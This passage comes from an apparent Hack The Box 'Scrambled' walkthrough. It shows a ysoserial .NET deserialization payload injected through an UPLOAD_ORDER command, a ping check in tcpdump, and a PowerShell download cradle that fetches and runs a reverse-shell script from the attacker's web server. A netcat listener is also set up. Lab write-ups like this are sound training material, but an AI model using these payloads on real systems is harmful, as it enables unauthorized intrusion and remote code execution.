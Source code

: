 I've used the **UPLOAD_ORDER** command we saw when looking with Strings, then semicolon, then pasted my YoSoSerial payload. Switch to a waiting tcpdump to see our ping:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:32:01.688887 IP 10.10.11.168 > 10.10.14.198: ICMP echo request, id 1, seq 1, length 40
22:32:01.688905 IP 10.10.14.198 > 10.10.11.168: ICMP echo reply, id 1, seq 1, length 40
22:32:02.697397 IP 10.10.11.168 > 10.10.14.198: ICMP echo request, id 1, seq 2, length 40
22:32:02.697411 IP 10.10.14.198 > 10.10.11.168: ICMP echo reply, id 1, seq 2, length 40
```

That worked as expected, so now we can do a reverse shell. I tried using the same base64 encoded PowerShell one we used earlier:

```powershell
PS C:\Users\Downloads\ysoserial-1.34\Release> ./ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "powershell -e JABjAGwAaQBlA <SNIP> AZQAoACkA"
```

I couldn't get it working so back to HackTricks and I used the first one [here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#download-and-execute). Which is put our base64 encoded reverse shell from earlier in to a file and then pull that over to the box.

On Kali:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# cat pencer_shell.ps1 
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8 <SNIP> AAsACAAJABiAHkAdA
```

Back on Windows:

```powershell
PS C:\Users\Downloads\ysoserial-1.34\Release> ./ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "powershell.exe Invoke-Command -ScriptBlock {Invoke-Expression(New-Object Net.WebClient).downloadString('http://10.10.14.198/pencer_shell.ps1')}"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJ<SNIP> SaFVISnZkbWxrWlhJK0N3PT0L
```

Now back to Kali and start a web server so we can pull the pencer_shell.ps1 file across to the box:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In another terminal start netcat listening:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -nlvp 1337
listening on [any] 1337 ...
```
